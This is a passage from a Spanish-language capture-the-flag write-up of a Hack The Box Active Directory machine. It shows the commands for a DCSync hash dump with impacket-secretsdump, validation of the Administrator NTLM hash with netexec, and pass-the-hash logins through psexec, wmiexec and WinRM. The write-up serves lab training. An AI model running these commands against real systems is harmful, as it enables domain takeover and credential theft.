 ![Pasted image 20250313163246](https://github.com/user-attachments/assets/dfff53eb-9410-4895-9bee-2b3e77d1259e)

Y aunque se utilice -use-vss como nos propone, nos da acceso denegado:

![Pasted image 20250313163310](https://github.com/user-attachments/assets/deb76d59-7261-43ff-8c98-daaff6742a9e)

Esto se soluciona identificando al dominio como se ha descrito en el primer comando:

``-TargetIdentity "DC=htb,DC=local"``
![Pasted image 20250313160755](https://github.com/user-attachments/assets/6e6a20f8-c074-4547-9231-30cfc2967d3d)



Una vez el usuario pwn tiene el privilegio DCSync, lo explotamos vía impacket para volcar todos los hashes NTLM:

``impacket-secretsdump htb.local/'pwn':'pwned123!'@'10.10.10.161'``

![Pasted image 20250313161100](https://github.com/user-attachments/assets/3b495c41-27ef-4da6-969b-247e2b320e59)


Nos vuelca todos los hashes NTLM, pero para continuar nos interesa especialmente el hash del usuario Administrator.

Nos lo copiamos.

Validamos el hashNTLM con netexec:

``netexec smb 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``

![Pasted image 20250313161236](https://github.com/user-attachments/assets/8c11b46c-783e-43c3-9115-002f084c3a39)

Pwn3d!, son credenciales válidas y, efectivamente, de Administrador.

Dado que conocemos el hash NTLM válido de Administrator podemos acceder al sistema víctima con la técnica Pass The Hash. Como nos pone Pwn3d! podemos ingresar vía psexec (para acceder como NTAuthority\System) o wmiexec (para acceder como Adminsitrator), o winRM (si el administrador forma parte del grupo Remote Management Users):

- psexec:

``impacket-psexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``

![Pasted image 20250313161653](https://github.com/user-attachments/assets/80c51f5a-09e1-490e-9ae8-648b8df85f29)


- wmiexec:

``impacket-wmiexec Administrator@10.10.10.161 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'``

![Pasted image 20250313161707](https://github.com/user-attachments/assets/dd55e932-5137-458e-ab18-741be72165ec)


- evilwinrm:

Primero deberíamos validar que nos podemos conectar por winrm:

``netexec winrm 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'``

![Pasted image 20250313161332](https://github.com/user-attachments/assets/28ecf169-59bd-4be2-b576-882f3bf2057d)
